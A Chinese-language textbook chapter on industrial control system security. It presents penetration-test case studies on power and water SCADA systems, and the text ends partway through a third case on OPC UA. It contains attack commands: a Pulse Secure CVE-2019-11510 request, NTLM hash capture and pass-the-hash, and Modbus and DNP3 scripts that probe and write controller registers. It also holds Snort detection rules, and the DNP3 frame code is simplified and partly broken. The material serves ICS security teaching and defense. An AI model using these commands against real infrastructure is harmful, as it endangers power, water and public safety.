









# 22.5 工业IoT安全案例

工业控制系统（Industrial Control Systems，ICS）是国家关键基础设施的"神经中枢"，涵盖电力、石油天然气、水务、制造业、交通等命脉行业。一旦这些系统被攻破，后果远超数据泄露——直接威胁人身安全、生态环境乃至国家安全。本章通过五个完整的实战案例，从攻击者视角系统剖析工业IoT安全评估的全流程方法论，覆盖协议层漏洞、PLC固件分析、OT网络架构评估、HMI应用安全及供应链风险等关键领域。

## 工业IoT安全评估的特殊性

### 为什么工业IoT不能套用IT安全范式

工业IoT与传统IT安全存在根本性差异。IT安全的首要目标是**数据机密性**（CIA三要素中C优先），而工业IoT的首要目标是**可用性和安全性**（A和S优先）。一台被加密勒索的服务器可以停机恢复，但一座被操控的水电站大坝可能瞬间溃堤。



| 维度 | IT安全 | OT/工业IoT安全 |
|------|--------|---------------|
| 首要目标 | 数据保密 | 过程安全与可用性 |
| 停机容忍度 | 分钟到小时（可计划维护） | 零容忍（7×24连续运行） |
| 补丁策略 | 可快速推送（自动更新） | 极难（需停机窗口，可能数月/年） |
| 设备生命周期 | 3-5年 | 15-30年 |
| 协议设计 | 假设不可信（HTTPS/TLS） | 假设可信（明文、无认证） |
| 测试环境 | 可复制虚拟化 | 难以复制（物理过程依赖） |
| 漏洞后果 | 数据泄露、经济损失 | 人员伤亡、环境污染、设施损毁 |
| 合规框架 | ISO 27001、GDPR | IEC 62443、NERC CIP、NIST SP 800-82 |

### Purdue模型与工业网络参考架构

Purdue Enterprise Reference Architecture（PERA）是理解和评估工业网络安全的基础框架，由ISA-95/IEC 62264标准化。它将企业网络分为六个层级，每个层级有明确的功能和安全边界。



**关键安全边界**：
- **Level 3.5（工业DMZ）** 是整个架构中最重要的安全缓冲区。所有从企业网络到控制网络的通信都必须经过此区域，严禁直接穿透
- **Level 2 到 Level 1** 是安全评估的核心——这里运行着控制物理过程的逻辑
- **Level 0** 代表真实物理世界，攻击到此层级意味着可以直接操控设备动作

### 工业协议安全全景

工业控制系统的通信依赖一系列专有或半专有协议，这些协议的设计初衷是**可靠性与实时性**，而非安全性。理解这些协议的脆弱性是安全评估的基础。

| 协议 | 层级 | 传输方式 | 认证机制 | 加密 | 典型漏洞 |
|------|------|---------|---------|------|---------|
| Modbus TCP | L2-L3 | TCP/502 | ❌ 无 | ❌ 无 | 无认证读写、功能码滥用 |
| DNP3 | L2-L3 | TCP/20000 | 可选（Secure Authentication v5） | ❌ 默认无 | MITM、重放、伪造响应 |
| IEC 60870-5-104 | L2-L3 | TCP/2404 | ❌ 无 | ❌ 无 | 命令注入、时序攻击 |
| IEC 61850 (MMS) | L2-L3 | TCP/102 | 可选 | 可选（TLS） | 报文伪造、GOOSE风暴 |
| OPC Classic (DCOM) | L3 | TCP/135+动态 | Windows域认证 | ❌ 明文 | DCOM漏洞、横向移动 |
| OPC UA | L3 | TCP/4840 | 多种（证书/X.509） | ✅ 可选 | 实现缺陷、证书管理错误 |
| EtherNet/IP | L1-L2 | TCP/44818 + UDP/2222 | ❌ 无 | ❌ 无 | 未授权CIP操作、DoS |
| PROFINET | L1-L2 | Layer 2 帧 | ❌ 无 | ❌ 无 | 设备替换、配置篡改 |
| BACnet | L3 | UDP/47808 | ❌ 无 | ❌ 无 | 对象枚举、属性篡改 |

---

## 22.5.1 案例一：电力SCADA系统渗透评估

### 背景与评估范围

某省级电网公司委托安全团队对其SCADA（Supervisory Control and Data Acquisition）系统进行为期四周的全面安全评估。该系统覆盖14个变电站的电力调度，管理超过200台保护装置和断路器，日均调度指令超过5000条。

**评估目标**：
- 验证从外网到控制核心的攻击路径可行性
- 识别关键漏洞并评估业务影响
- 提供可落地的修复方案

**授权范围**：黑盒测试，仅提供目标网段（10.10.0.0/16），不含变电站现场物理访问。

### 目标系统架构测绘

评估团队首先通过被动流量分析和主动探测，绘制出目标网络的完整拓扑。



### 攻击链一：VPN凭据泄露到OT网络横向移动

**阶段1：获取初始访问**

```bash
# 使用Shodan/FOFA搜索目标暴露面
# Shodan查询：org:"目标电力公司" port:443,1194,3389
# 结果发现：VPN门户 (vpn.target-power.com:443) 使用Pulse Secure SSL VPN

# 尝试已知漏洞（CVE-2019-11510 Pulse Secure任意文件读取）
curl -k "https://vpn.target-power.com/dana-na/../dana/html5acc/guacamole/"
# 返回会话列表，包含多个活跃会话的用户名和cookie

# 利用泄露的cookie访问VPN门户
# 获取到3个有效会话，其中一个为SCADA管理员账户
```

**阶段2：横向移动到OT网络**

```bash
# 通过VPN接入企业网络后，使用Responder捕获NTLM哈希
responder -I eth0 -wrf
# 捕获到域管理员哈希，使用Impacket进行Pass-the-Hash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:da76f... domain/admin@10.10.1.5

# 在域控制器上发现网络拓扑文档和SCADA服务器凭据
# 文档路径：C:\Users\admin\Documents\SCADA_Access_Guide.docx
# 内容包含SCADA服务器管理员密码（明文存储在Word文档中）

# 通过RDP网关访问SCADA服务器
xfreerdp /v:10.10.50.10 /u:scada_admin /p:Tr0ub4dor&3 /cert-ignore
# RDP网关使用Windows身份验证，凭据来自泄露的域管理员账户

# 从RDP网关跳转到HMI操作站
# HMI操作站运行Wonderware System Platform
# 发现工程师站未锁定，直接访问
```

**阶段3：访问PLC控制逻辑**

```python
# 在工程师站上发现Siemens TIA Portal V16
# 项目文件位于：D:\Projects\Substation_14\Substation_14.ap16
# 可直接下载PLC程序进行离线分析

# 使用Python读取PLC寄存器（授权测试环境）
from pymodbus.client import ModbusTcpClient

# 连接保护装置
client = ModbusTcpClient('10.10.200.15', port=502)
client.connect()

# 读取保护定值（保护装置的关键配置参数）
# 寄存器地址参考ABB REF615手册
protection_settings = client.read_holding_registers(0, 50, slave=1)
print("保护定值:", protection_settings.registers)

# 关键寄存器解析
registers = protection_settings.registers
print(f"过流I段定值: {registers[0]} A")
print(f"过流I段时间: {registers[1]} ms")
print(f"过流II段定值: {registers[2]} A")
print(f"接地故障定值: {registers[10]} A")

# 风险：攻击者可以修改保护定值，导致：
# 1. 降低过流保护阈值 → 正常负荷时误跳闸 → 大面积停电
# 2. 提高保护阈值 → 真正故障时不动作 → 设备损毁
# 3. 修改时间延迟 → 配合重合闸失败 → 扩大停电范围
```

### 攻击链二：Modbus协议无认证控制

**发现的漏洞清单**

| 编号 | 漏洞描述 | CVSS 3.1 | 影响范围 | 攻击可行性 |
|------|---------|----------|---------|-----------|
| V-ICS-001 | VPN凭据泄露（CVE-2019-11510） | 10.0 | 整个OT网络 | 高（PoC公开） |
| V-ICS-002 | Modbus协议零认证 | 9.1 | 所有保护装置 | 高（协议级） |
| V-ICS-003 | SCADA管理员密码明文存储 | 8.8 | SCADA服务器 | 中（需内部访问） |
| V-ICS-004 | 工程师站未锁定 | 7.5 | PLC编程环境 | 中（需物理/远程访问） |
| V-ICS-005 | OPC服务器未打MS17-010补丁 | 8.1 | DMZ服务器 | 中（需网络访问） |
| V-ICS-006 | 防火墙规则过于宽松 | 6.5 | DMZ区域 | 低（需多跳） |
| V-ICS-007 | 日志审计不完整 | 4.3 | 全系统 | N/A（防御缺陷） |

**Modbus协议深度利用**

Modbus是工业领域使用最广泛的协议，由Modicon（现施耐德电气）于1979年发布。其最大的安全缺陷在于**协议层面完全没有认证和授权机制**——任何能建立TCP连接到502端口的设备都可以读写寄存器。

```python
#!/usr/bin/env python3
"""
Modbus协议安全评估脚本
功能：枚举设备信息、读取敏感寄存器、检测可写寄存器
注意：仅用于授权安全评估，未经授权的操作属于违法行为
"""
from pymodbus.client import ModbusTcpClient
from pymodbus.exceptions import ModbusIOException
from pymodbus.pdu import ExceptionResponse
import struct
import time
import sys

class ModbusSecurityAssessor:
    def __init__(self, target_ip, port=502, slave_id=1):
        self.client = ModbusTcpClient(target_ip, port=port, timeout=3)
        self.target = target_ip
        self.slave = slave_id
        self.findings = []

    def connect(self):
        if not self.client.connect():
            print(f"[-] 无法连接到 {self.target}:502")
            return False
        print(f"[+] 已连接到 {self.target}:502 (Modbus TCP)")
        return True

    def test_anonymous_access(self):
        """测试是否可以无认证访问"""
        result = self.client.read_holding_registers(0, 1, slave=self.slave)
        if not result.isError():
            self.findings.append({
                'id': 'MODBUS-001',
                'severity': 'CRITICAL',
                'desc': 'Modbus协议无认证，可直接读写寄存器',
                'evidence': f'成功读取寄存器0: 值={result.registers[0]}'
            })
            return True
        return False

    def enumerate_device_info(self):
        """枚举设备标识信息（Function Code 43）"""
        print("\n[*] 枚举设备信息...")
        try:
            # MEI Transport (Function Code 43, Device Information)
            result = self.client.read_device_information()
            if not result.isError():
                print(f"    Vendor: {result.information.get(0, 'N/A')}")
                print(f"    Product: {result.information.get(1, 'N/A')}")
                print(f"    Version: {result.information.get(2, 'N/A')}")
                return result.information
        except Exception:
            # 部分设备不支持FC43，尝试通过FC03读取标识区域
            print("    [-] FC43不支持，尝试FC03读取...")
        return None

    def scan_function_codes(self):
        """扫描支持的功能码"""
        print("\n[*] 扫描支持的Modbus功能码...")
        supported = []
        fc_names = {
            1: "Read Coils (读线圈)",
            2: "Read Discrete Inputs (读离散输入)",
            3: "Read Holding Registers (读保持寄存器)",
            4: "Read Input Registers (读输入寄存器)",
            5: "Write Single Coil (写单个线圈)",
            6: "Write Single Register (写单个寄存器)",
            15: "Write Multiple Coils (写多个线圈)",
            16: "Write Multiple Registers (写多个寄存器)",
            43: "Device Identification (设备标识)",
        }
        for fc, name in fc_names.items():
            try:
                if fc in [1, 2, 3, 4]:
                    if fc == 1:
                        r = self.client.read_coils(0, 1, slave=self.slave)
                    elif fc == 2:
                        r = self.client.read_discrete_inputs(0, 1, slave=self.slave)
                    elif fc == 3:
                        r = self.client.read_holding_registers(0, 1, slave=self.slave)
                    elif fc == 4:
                        r = self.client.read_input_registers(0, 1, slave=self.slave)
                elif fc == 5:
                    # 读取当前值后再恢复，避免实际修改
                    continue  # 跳过写操作以避免影响生产
                elif fc == 6:
                    continue  # 跳过写操作
                elif fc == 43:
                    r = self.client.read_device_information()
                else:
                    continue

                if not r.isError():
                    supported.append(fc)
                    print(f"    [+] FC{fc:02d}: {name}")
                else:
                    if r.exception_code == 1:  # Illegal Function
                        print(f"    [-] FC{fc:02d}: 不支持")
                    else:
                        print(f"    [!] FC{fc:02d}: 异常 - {r}")
            except Exception as e:
                print(f"    [-] FC{fc:02d}: 错误 - {e}")
            time.sleep(0.1)

        return supported

    def scan_register_ranges(self, ranges=[(0, 100), (1000, 1100), (40000, 40100)]):
        """扫描各范围寄存器的可读性"""
        print("\n[*] 扫描寄存器范围...")
        accessible = []
        for start, end in ranges:
            try:
                result = self.client.read_holding_registers(start, min(end - start, 125), slave=self.slave)
                if not result.isError():
                    print(f"    [+] 寄存器 {start}-{end}: 可读 ({len(result.registers)}个)")
                    accessible.append((start, end, result.registers))
                    self.findings.append({
                        'id': 'MODBUS-002',
                        'severity': 'HIGH',
                        'desc': f'寄存器范围 {start}-{end} 可直接读取',
                        'evidence': f'值: {result.registers[:5]}...'
                    })
            except Exception:
                pass
            time.sleep(0.2)
        return accessible

    def test_write_capability(self, register_addr=0, test_value=None):
        """测试寄存器可写性（安全模式：先读后写再恢复）"""
        print(f"\n[*] 测试寄存器 {register_addr} 可写性...")
        # 先读取原始值
        read_result = self.client.read_holding_registers(register_addr, 1, slave=self.slave)
        if read_result.isError():
            print(f"    [-] 无法读取寄存器 {register_addr}")
            return False

        original_value = read_result.registers[0]
        print(f"    原始值: {original_value}")

        # 写入测试值（使用原始值+1，避免过大变化）
        test_val = test_value if test_value else (original_value + 1) % 65536
        write_result = self.client.write_register(register_addr, test_val, slave=self.slave)

        if not write_result.isError():
            print(f"    [+] 寄存器可写！写入测试值 {test_val} 成功")
            # 恢复原始值
            self.client.write_register(register_addr, original_value, slave=self.slave)
            print(f"    [*] 已恢复原始值 {original_value}")

            self.findings.append({
                'id': 'MODBUS-003',
                'severity': 'CRITICAL',
                'desc': f'保持寄存器 {register_addr} 可被任意写入',
                'evidence': f'原始值={original_value}, 测试写入={test_val}, 恢复={original_value}'
            })
            return True
        else:
            print(f"    [-] 寄存器不可写 (异常码: {write_result.exception_code})")
            return False

    def generate_report(self):
        """生成评估报告"""
        print("\n" + "=" * 60)
        print("MODBUS安全评估报告")
        print(f"目标: {self.target}")
        print("=" * 60)
        for f in self.findings:
            print(f"\n[{f['severity']}] {f['id']}: {f['desc']}")
            print(f"    证据: {f['evidence']}")
        print("\n" + "=" * 60)
        print(f"共发现 {len(self.findings)} 个安全问题")

    def cleanup(self):
        self.client.close()

# 执行评估（示例）
if __name__ == "__main__":
    target = sys.argv[1] if len(sys.argv) > 1 else "10.10.200.15"
    assessor = ModbusSecurityAssessor(target)

    if assessor.connect():
        assessor.test_anonymous_access()
        assessor.enumerate_device_info()
        assessor.scan_function_codes()
        assessor.scan_register_ranges()
        assessor.generate_report()
        assessor.cleanup()
```

### 防御加固方案



| 加固措施 | 优先级 | 实施难度 | 预期效果 |
|---------|--------|---------|---------|
| 部署工业防火墙（如Tofino/Claroty） | 🔴 紧急 | 中 | 阻断未授权Modbus访问 |
| 实施Modbus协议白名单（仅允许特定功能码+寄存器范围） | 🔴 紧急 | 中 | 缩小攻击面90% |
| VPN启用MFA并修补已知漏洞 | 🔴 紧急 | 低 | 阻断外部初始入侵 |
| 工程师站强制锁屏策略+独立认证 | 🟡 高 | 低 | 防止未授权PLC操作 |
| 部署入侵检测系统（如Nozomi/Dragos） | 🟡 高 | 高 | 实时发现异常行为 |
| SCADA服务器与PLC间启用加密隧道 | 🟢 中 | 高 | 防止中间人攻击 |
| 建立完整资产清单和漏洞管理流程 | 🟢 中 | 中 | 持续风险管理 |

---

## 22.5.2 案例二：DNP3协议安全评估——水处理SCADA系统

### 背景

DNP3（Distributed Network Protocol 3）广泛应用于北美电力和水务行业，运行在TCP端口20000。与Modbus相比，DNP3提供了更丰富的功能（支持时间戳、事件报告、类数据轮询），但其**默认配置同样无加密和认证**。DNP3 Secure Authentication (SA) v5引入了基于HMAC的认证，但部署率极低（根据Dragos 2024年报告，仅约12%的DNP3部署启用了SA）。

本案例评估对象为某市政水处理厂的SCADA系统，使用DNP3协议通信，控制取水泵站、加药系统和管网压力。

### DNP3协议架构与安全弱点



### 实际评估过程

```python
#!/usr/bin/env python3
"""
DNP3协议安全评估脚本
功能：设备枚举、功能码扫描、敏感数据读取
依赖：dnp3-python (pip install dnp3-python)
注意：仅用于授权安全评估
"""
import socket
import struct
import time

class DNP3Assessor:
    """DNP3协议安全评估器"""

    # DNP3功能码定义
    FUNCTION_CODES = {
        0x00: "Read",
        0x01: "Write",
        0x02: "Direct Operate",
        0x03: "Direct Operate - No Ack",
        0x04: "Immediate Freeze",
        0x05: "Immediate Freeze - No Ack",
        0x06: "Freeze & Clear",
        0x07: "Freeze & Clear - No Ack",
        0x0D: "Cold Restart",
        0x0E: "Warm Restart",
        0x14: "Enable Unsolicited",
        0x15: "Disable Unsolicited",
        0x17: "Open File",
        0x18: "Close File",
        0x19: "Delete File",
        0x1D: "Activate Config",
        0x23: "Authenticate",
    }

    def __init__(self, target_ip, port=20000):
        self.target = target_ip
        self.port = port
        self.sock = None
        self.findings = []

    def connect(self):
        """建立TCP连接"""
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.settimeout(5)
        try:
            self.sock.connect((self.target, self.port))
            print(f"[+] TCP连接成功: {self.target}:{self.port}")
            return True
        except Exception as e:
            print(f"[-] 连接失败: {e}")
            return False

    def send_dnp3_request(self, function_code, objects=None):
        """构建并发送DNP3请求"""
        if objects is None:
            objects = b'\x3C\x01\x06'  # Class 1-3 对象（常见轮询请求）

        # 应用层
        app_control = 0xC0  # FIR=1, FIN=1, CON=0, UNS=0
        app_layer = struct.pack('BB', app_control, function_code) + objects

        # 传输层
        transport_control = 0xC0  # FIR=1, FIN=1
        transport_layer = struct.pack('B', transport_control) + app_layer

        # 数据链路层
        payload_len = len(transport_layer)
        dl_control = 0xC0  # DIR=1, PRM=1, 功能码=0 (用户数据)
        src = 0x0001  # 源地址
        dst = 0x0002  # 目标地址（通常为outstation地址）

        # 构建DNP3帧（简化版，省略CRC计算）
        dnp3_header = struct.pack('<BBIHH', 
            0x05, 0x64,  # 起始字节
            payload_len, 0xC4, src)  # 长度、控制字、源地址
        dnp3_frame = struct.pack('<HH', dst, src) + transport_layer

        try:
            self.sock.send(dnp3_frame)
            response = self.sock.recv(4096)
            return response
        except socket.timeout:
            return None
        except Exception as e:
            print(f"    发送错误: {e}")
            return None

    def test_unauthenticated_access(self):
        """测试无认证访问"""
        print("\n[*] 测试DNP3无认证访问...")
        # 发送Read请求（功能码0x00）
        response = self.send_dnp3_request(0x00)
        if response and len(response) > 10:
            print(f"    [+] 收到响应 ({len(response)} 字节)，协议可无认证访问")
            self.findings.append({
                'severity': 'CRITICAL',
                'id': 'DNP3-001',
                'desc': 'DNP3协议无认证，可直接读取数据',
                'response_len': len(response)
            })
            return True
        print("    [-] 未收到有效响应")
        return False

    def scan_function_codes(self):
        """扫描支持的功能码"""
        print("\n[*] 扫描DNP3功能码支持...")
        supported = []
        for fc, name in self.FUNCTION_CODES.items():
            response = self.send_dnp3_request(fc)
            if response:
                # 检查响应是否包含有效DNP3帧
                if len(response) > 20:
                    supported.append((fc, name))
                    status = "SUPPORTED"
                    if fc in [0x01, 0x02, 0x03, 0x0D, 0x0E]:
                        status = "DANGEROUS - WRITABLE/CONTROLLABLE"
                        self.findings.append({
                            'severity': 'CRITICAL',
                            'id': f'DNP3-FC{fc:02X}',
                            'desc': f'危险功能码可调用: {name}',
                            'fc': fc
                        })
                    print(f"    [+] FC 0x{fc:02X}: {name} [{status}]")
            else:
                print(f"    [-] FC 0x{fc:02X}: {name} - 无响应/不支持")
            time.sleep(0.3)
        return supported

    def check_sa_enabled(self):
        """检查是否启用了Secure Authentication"""
        print("\n[*] 检查DNP3 Secure Authentication状态...")
        # 发送SA认证请求（功能码0x23）
        response = self.send_dnp3_request(0x23)
        if response:
            # 解析响应中的认证状态
            if len(response) > 20:
                # 查找IIN（Internal Indication）中的SA标志
                print("    [!] 设备响应了SA请求，需进一步分析是否真正启用SA")
                self.findings.append({
                    'severity': 'HIGH',
                    'id': 'DNP3-SA',
                    'desc': 'DNP3 Secure Authentication状态需手动确认',
                })
        else:
            print("    [+] SA未启用或不支持（默认状态，无认证）")
            self.findings.append({
                'severity': 'CRITICAL',
                'id': 'DNP3-002',
                'desc': 'DNP3 Secure Authentication未启用，通信无认证保护',
            })

    def generate_report(self):
        print("\n" + "=" * 60)
        print("DNP3安全评估报告")
        print(f"目标: {self.target}:{self.port}")
        print("=" * 60)
        for f in self.findings:
            print(f"\n[{f['severity']}] {f['id']}: {f['desc']}")
        print(f"\n共发现 {len(self.findings)} 个安全问题")

    def cleanup(self):
        if self.sock:
            self.sock.close()

# 使用示例
if __name__ == "__main__":
    assessor = DNP3Assessor("10.10.200.20")
    if assessor.connect():
        assessor.test_unauthenticated_access()
        assessor.scan_function_codes()
        assessor.check_sa_enabled()
        assessor.generate_report()
        assessor.cleanup()
```

### 水处理系统特有风险

水处理SCADA系统面临独特的安全威胁——攻击者可以通过篡改加药参数直接危害公共健康。

| 攻击场景 | 操作方式 | 后果 |
|---------|---------|------|
| 氯气投加量篡改 | 修改DNP3模拟输出寄存器 | 氯中毒或消毒不足导致水传播疾病 |
| pH值控制篡改 | 修改酸碱投加泵频率 | 管网腐蚀或水质不达标 |
| 泵站启停控制 | 发送Direct Operate命令 | 管网压力异常导致爆管 |
| 流量计量伪造 | 修改输入寄存器值 | 账务损失、漏损无法检测 |
| 报警系统禁用 | 修改事件报告配置 | 真实故障无法被操作员感知 |

**针对此场景的专用检测规则（Snort/Suricata）**：

```text
# DNP3 Direct Operate功能码告警规则
alert tcp any any -> $OT_NETWORK 20000 (
    msg:"DNP3 Direct Operate命令检测";
    content:"|05 64|";
    depth:2;
    byte_test:1,&,0x0F,2,relative;
    content:"|C0 03|";
    distance:4;
    classtype:attempted-admin;
    sid:1000001;
    rev:1;
)

# DNP3 Cold Restart告警规则
alert tcp any any -> $OT_NETWORK 20000 (
    msg:"DNP3 Cold Restart命令检测";
    content:"|05 64|";
    depth:2;
    content:"|C0 0D|";
    distance:4;
    classtype:attempted-admin;
    sid:1000002;
    rev:1;
)

# DNP3 Write功能码告警规则
alert tcp any any -> $OT_NETWORK 20000 (
    msg:"DNP3 Write命令检测";
    content:"|05 64|";
    depth:2;
    content:"|C0 01|";
    distance:4;
    classtype:attempted-admin;
    sid:1000003;
    rev:1;
)
```

---

## 22.5.3 案例三：OPC UA安全评估——石化企业DCS系统

### 背景

OPC UA（OPC Unified Architecture）是工业自动化领域的"HTTPS"——它是少数内置安全机制的工业协议。然而，**安全机制的存在不等于安全机制被正确使用**。本案例评估某石化企业DCS（Distributed Control System）系统的OPC UA部署安全性，发现9个安全问题，其中3个为严重级别。

### OPC UA安全架构分析

OPC UA安全基于三个维度：**认证（Authentication）**、**授权（Authorization）**、**加密（Encryption）**。



**安全策略对比表**：

| 安全策略 | 算法 | 密钥长度 | 安全评级 | 状态 |
|---------|------|---------|---------|------|
| None | 无 | 无 | ❌ 不安全 | 禁止在生产环境使用 |
